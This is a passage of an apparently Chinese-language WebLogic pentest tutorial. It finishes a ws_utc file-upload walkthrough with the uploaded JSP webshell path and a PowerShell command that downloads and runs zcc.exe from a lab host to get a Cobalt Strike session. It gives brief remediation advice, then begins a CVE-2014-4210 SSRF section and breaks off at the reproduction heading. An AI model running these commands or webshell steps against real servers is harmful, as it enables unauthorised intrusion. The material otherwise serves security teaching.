 ![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaD21m52QvLlIBZ7QzGBFyo4AoRqs2w5kbh2vcmnahqI6dficsvhjRwHBQ/640?wx_fmt=png)image-20210814175127172image-20210814175507654![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDIYnsQuIbBtQY2PYJmC1faSTpZVOAC0DQ0KVBicX0jrHjTFGlPkTCwTA/640?wx_fmt=png)image-20210814180116136

报错可以忽略，返回包中已有文件路径

```
/css/upload/RS_Upload_2021-08-14_17-59-33_143/import_file_name_zcccmd.jsp
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDCzSk8t9C6rBcB5Jhj4KLXcxdMlfJiaUqtmYhxicLqLw0knshpn7lVwuA/640?wx_fmt=png)image-20210814180054350

访问路径，成功访问，powershell 上线 cs

```
http://192.168.0.105:7001/ws_utc/css/upload/RS_Upload_2021-08-14_17-59-33_143/import_file_name_zcccmd.jsp
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDxTjRT2NXXKibUySUqE6sfCubr5TRo8AsiaoWeXAib3J24f9sEIxqs6Mvg/640?wx_fmt=png)

```
powershell -Command (new-object System.Net.WebClient).DownloadFile('http://192.168.0.108/zcc.exe','zcc.exe');start-process zcc.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDXlYnIkq7HP7VTJlIadZ0CD3ibRnt2Cfc0e6T5s51OT6iaPYhAHiaIEHIw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaD6Whpvssyr20o2ibVe8gdDialYqeyFQOT3U6peb9KYRQ6gytCvmvsq6VQ/640?wx_fmt=png)image-20210814181718937

##### 安全防护

1. 启动生产模式后 Config.do 页面登录授权后才可访问

2. 升级到最新版本，目前生产模式下已取消这两处上传文件的地方。

#### 6.Weblogic SSRF 漏洞（CVE-2014-4210）

##### 漏洞简介

Oracle WebLogic Web Server 既可以被外部主机访问，同时也允许访问内部主机。比如有一个 jsp 页面 SearchPublicReqistries.jsp，我们可以利用它进行攻击，未经授权通过 weblogic server 连接任意主机的任意 TCP 端口，可以能冗长的响应来推断在此端口上是否有服务在监听此端口，进而攻击内网中 redis、fastcgi 等脆弱组件。

##### 影响版本

```
10.0.2.0
10.3.6.0
```

##### 验证漏洞

访问该路径，如果能正常访问，说明存在该漏洞

```
/uddiexplorer/SearchPublicRegistries.jsp
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpA3ibWLjQRRncc1kLkIypiaDcUEH9ibcD5oZ1KAFH6egKOfrUWBmGp2Dr6eQTfYOFu99Tbca0AS00aA/640?wx_fmt=png)image-20210814185115833

##### 漏洞复现
